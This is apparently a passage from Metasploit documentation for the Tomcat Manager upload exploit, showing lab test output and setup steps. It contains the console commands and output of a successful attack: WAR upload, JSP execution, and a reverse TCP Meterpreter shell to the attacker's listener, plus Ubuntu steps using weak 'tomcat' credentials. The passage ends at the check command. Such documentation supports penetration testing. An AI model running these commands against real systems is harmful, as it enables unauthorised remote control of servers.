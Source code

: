     [*] Tomcat Manager found running on win platform and x86 architecture
    [!] No active DB -- Credential data will not be saved!
    [*] 192.168.2.108:8088 The target appears to be vulnerable.
    msf exploit(tomcat_mgr_upload) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Retrieving session ID and CSRF token...
    [*] Finding CSRF token...
    [*] Uploading and deploying AiV6YUyTkEpIK5G87r0gmdf8fFH...
    [*] Uploading 6094 bytes as AiV6YUyTkEpIK5G87r0gmdf8fFH.war ...
    [*] Executing AiV6YUyTkEpIK5G87r0gmdf8fFH...
    [*] Executing /AiV6YUyTkEpIK5G87r0gmdf8fFH/u9TOPpZzy6dj21L.jsp...
    [*] Finding CSRF token...
    [*] Undeploying AiV6YUyTkEpIK5G87r0gmdf8fFH ...
    [*] Sending stage (49409 bytes) to 192.168.2.108
    [*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.108:3508) at 2017-01-15 19:38:29 -0500
    
    meterpreter > sysinfo
    Computer    : winxp
    OS          : Windows XP 5.1 (x86)
    Meterpreter : java/windows
    ```

## Linux

### Tomcat6 (6.0.39) - Ubuntu server 14.04 64bit

#### Setup

1. Install Tomcat and dependencies: `sudo apt-get install tomcat6 tomcat6-admin`

#### Exploit

1. Edit `/etc/tomcat6/tomcat-users.xml` to add the following:

    ```
    <role rolename="manager"/>
    <user username="tomcat" password="tomcat" roles="manager"/>
    ```

2. Restart the service if a user was added/changed: `sudo service tomcat6 restart`

3. Exploit:

    ```
    msf > use exploit/multi/http/tomcat_mgr_upload
    msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp 
    payload => java/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_upload) > set verbose true
    verbose => true
    msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.156
    rhost => 192.168.2.156
    msf exploit(tomcat_mgr_upload) > set rport 8080
    rport => 8080
    msf exploit(tomcat_mgr_upload) > check
    